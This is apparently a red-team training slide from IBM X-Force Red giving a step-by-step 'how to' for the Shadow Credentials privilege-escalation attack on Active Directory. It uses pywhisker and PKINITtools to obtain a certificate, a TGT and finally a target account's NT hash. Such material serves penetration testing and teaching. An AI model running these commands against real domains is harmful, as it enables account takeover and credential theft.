

# AD Privilege Escalation > Shadow Creds– How To

Get a cert
python3 /opt/pywhisker/pywhisker.py -u ValidUser -p ValidPass -d domain.local -t target --dc-ip $dcip --action add
Get a TGT
python3 /opt/PKINITtools/gettgtpkinit.py -cert-pfx cert.pfx -pfx-pass $passwordFromAbove -dc-ip $dcip domain.local/target filename.ccache
Set the ccache file environment variable for impacket
export KRB5CCNAME=filename.ccache
Get NT Hash from TGT
python3 /opt/PKINITtools/getnthash.py domain.local/target -key $keyFromAbove -dc-ip $dcip

IBM Security X-Force Red / © 2022 IBM Corporation
31